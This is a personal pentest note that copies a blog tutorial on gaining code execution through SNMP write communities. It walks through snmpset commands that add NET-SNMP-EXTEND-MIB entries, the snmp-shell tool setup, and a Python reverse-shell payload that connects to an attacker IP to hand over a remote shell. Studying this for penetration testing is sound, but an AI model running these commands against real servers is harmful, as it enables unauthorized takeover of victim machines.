 ```yaml
---
creation date: July 6th 2023
last modified date: July 6th 2023
aliases: []
tags: #📖
---
```


Primary Categories: [[03 - SNMP Enumeration]] 
Secondary Categories: [[]] 
Links: [[]] 
Search Tag: #📖  

# [[03 - SNMP - RCE]]  

This post was copied from [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)

SNMP is sometimes overseen by the administrator of the device or server where it is left in a default configuration. SNMP community with write permissions (**rwcommunity**) on the Linux operating system can be abused to let the attacker execute a command on the server.

[![](https://camo.githubusercontent.com/5658408a6daf4804ec9268b185901b401ea0cc987e54312c0c91c8f2344f4386/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d362e706e673f773d353038)](https://camo.githubusercontent.com/5658408a6daf4804ec9268b185901b401ea0cc987e54312c0c91c8f2344f4386/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d362e706e673f773d353038)

# [Extending the Services](https://github.com/carlospolop/hacktricks/blob/master/network-services-pentesting/pentesting-snmp/snmp-rce.md#extending-the-services)

While you are not able to modify existing entries that were configured in **snmpd.conf**, it is possible to add additional commands over SNMP, because the “MAX-ACCESS” permission setting in the MIB definition is set to “**read-create**”

Adding a new command basically works by appending an additional row to the “**nsExtendObjects**” table.

```shell
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

Injecting a command to run on the SNMP service. **NET-SNMP-EXTEND-MIB** requires that you always provide the absolute path to the executable. The called binary/script must also exist and be executable.

[![](https://camo.githubusercontent.com/733de69b399fbe423b77b2af10d4d617922099b8bf3bbea97aaf08962f168f96/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31352e706e673f773d393136)](https://camo.githubusercontent.com/733de69b399fbe423b77b2af10d4d617922099b8bf3bbea97aaf08962f168f96/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31352e706e673f773d393136)

Executing the command that we injected to the SNMP by enumerating it using snmpwalk

```shell
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Showing that the command is /bin/echo.

[![](https://camo.githubusercontent.com/e73f1d1fec20da6a914de9ec55bab6b2e648093175eddd36a76cedf93dbbc4b8/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31312e706e673f773d353639)](https://camo.githubusercontent.com/e73f1d1fec20da6a914de9ec55bab6b2e648093175eddd36a76cedf93dbbc4b8/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31312e706e673f773d353639)

The command will be executed when the it is read. **run-on-read()**

[![](https://camo.githubusercontent.com/3d6c724ff51be6bae68b7b06f2d5cda21d2b770831c2f3a14227792cfac02e6e/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31322e706e673f773d363132)](https://camo.githubusercontent.com/3d6c724ff51be6bae68b7b06f2d5cda21d2b770831c2f3a14227792cfac02e6e/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31322e706e673f773d363132)

The command **/bin/echo "hello rio is here"** was executed during our snmpwalk read

[![](https://camo.githubusercontent.com/83949e36c2caa180fb7856232c656bf87c5b0c92e649c9dca502eccdf203d434/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31332e706e673f773d363533)](https://camo.githubusercontent.com/83949e36c2caa180fb7856232c656bf87c5b0c92e649c9dca502eccdf203d434/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31332e706e673f773d363533)

# [Getting the Shell from Net-SNMP Extend](https://github.com/carlospolop/hacktricks/blob/master/network-services-pentesting/pentesting-snmp/snmp-rce.md#getting-the-shell-from-net-snmp-extend)

In this section, I would like to discuss how to gain a server shell to control the server.

You can use python script developed by **mxrch** that can be downloaded from [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git)

You can install the pre-requisite to run this:

```shell
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

[![](https://camo.githubusercontent.com/cd192eea25a72836cdab388a340d56a397a4ceb9a6b8f88005442da774702d23/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31382e706e673f773d373233)](https://camo.githubusercontent.com/cd192eea25a72836cdab388a340d56a397a4ceb9a6b8f88005442da774702d23/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31382e706e673f773d373233)

**Creating reverse shell**

You can also create reverse shell manually by injecting the command below into the SNMP

```shell
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

[![](https://camo.githubusercontent.com/528301594277072dd41c5a221e5fbb708159280458ed898d22d051cab16e73d9/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31392e706e673f773d393330)](https://camo.githubusercontent.com/528301594277072dd41c5a221e5fbb708159280458ed898d22d051cab16e73d9/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d31392e706e673f773d393330)

run the snmpwalk to trigger the command execution

[![](https://camo.githubusercontent.com/205a3afa5ad6f1a50a03fe35f0f301889a837cb3cc80787f5997928003350ff3/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d32312e706e673f773d363837)](https://camo.githubusercontent.com/205a3afa5ad6f1a50a03fe35f0f301889a837cb3cc80787f5997928003350ff3/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d32312e706e673f773d363837)

Our netcat receives the reverseshell connection from the victim that allow us to gain control over the victim machine

[![](https://camo.githubusercontent.com/3572364a98e0c4da44fa885ef9e4c580e618668668e4ed4a48370a4a266b8ace/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d32302e706e673f773d353032)](https://camo.githubusercontent.com/3572364a98e0c4da44fa885ef9e4c580e618668668e4ed4a48370a4a266b8ace/68747470733a2f2f72696f61736d6172612e66696c65732e776f726470726573732e636f6d2f323032312f30322f696d6167652d32302e706e673f773d353032)

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 6th 2023 (02:05 pm) 
Last Modified Date: July 6th 2023 (02:05 pm)
